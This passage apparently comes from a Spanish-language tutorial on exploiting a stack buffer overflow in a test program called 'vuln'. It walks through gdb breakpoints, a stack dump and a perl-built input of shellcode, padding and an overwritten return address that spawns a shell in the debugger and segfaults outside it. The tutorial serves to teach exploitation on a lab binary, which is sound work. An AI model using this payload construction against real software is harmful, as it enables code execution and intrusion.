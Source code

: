 Observamos el código de imprimir(). Tras la ejecución de strcpy() deben encontrarse en el stack ya los datos que proporcionemos. Coloquemos ahí un breakpoint (un punto donde el programa se detiene hasta que demos la orden de continuar).

(gdb) br \*imprimir +27  
Breakpoint 1 at 0x80484dd  
Colocado el breakpoint.

(gdb) run \`perl -e ‘print «A»x144’\`  
Starting program: /home/arget/vuln \`perl -e ‘print «A»x144’\`

Breakpoint 1, 0x080484dd in imprimir ()  
Procedemos a ejecutarlo con la misma cantidad de bytes que vamos a meterle (las direcciones variarán en función del tamaño de los argumentos pasados al programa).  
La ejecución se detiene en el breakpoint que habíamos colocado y podemos analizar la situación

    (gdb) x/16x $esp
    0xffffd1e0:     0xffffd1f0      0xffffd4d2      0xf7e5f549      0x000000c2
    0xffffd1f0:     0x41414141      0x41414141      0x41414141      0x41414141
    0xffffd200:     0x41414141      0x41414141      0x41414141      0x41414141
    0xffffd210:     0x41414141      0x41414141      0x41414141      0x41414141
    

Encontramos que a partir de 0xffffd1f0 comienza nuestra fruta. Por tanto si colocamos la dirección 0xffffd1f0 en EIP, se procederá a ejecutar nuestro shellcode (pues ahí lo situaremos). No olvidemos ajustar el tamaño del relleno que metemos en función del tamaño del shellcode (en nuestro caso 23).  
\[El lector atento habrá apreciado que donde apunta esp todavía permanece la dirección de nuestro buf, es el argumento que se ha pasado a strcpy(), y la siguiente dirección en el stack se corresponde con el argumento a main() (que se ha obtenido como argumento de imprimir())\]

(gdb) run \`cat sc.o\`\`perl -e 'print "A"x(140-23) . "xf0xd1xffxff"'\`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/arget/vuln \`cat sc.o\`\`perl -e 'print "A"x(140-23) . "xf0xd1xffxff"'\`

Breakpoint 1, 0x080484dd in imprimir ()  
(gdb) c  
Continuing.  
1�Ph//shh/bin��PS���  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����  
process 13260 is executing new program: /usr/bin/bash  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the «file» command.  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the «file» command.  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the «file» command.  
warning: Could not load shared library symbols for linux-vdso.so.1.  
Do you need «set solib-search-path» or «set sysroot»?  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the «file» command.  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the «file» command.  
sh-4.4$ whoami  
arget  
sh-4.4$

Ahora procedamos a probarlo fuera del debugger

$ /home/arget/vuln \`cat sc.o\`\`perl -e 'print "A"x(140-23) . "xf0xd1xffxff"'\`
1�Ph//shh/bin��PS���
                    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Violación de segmento (\`core' generado)

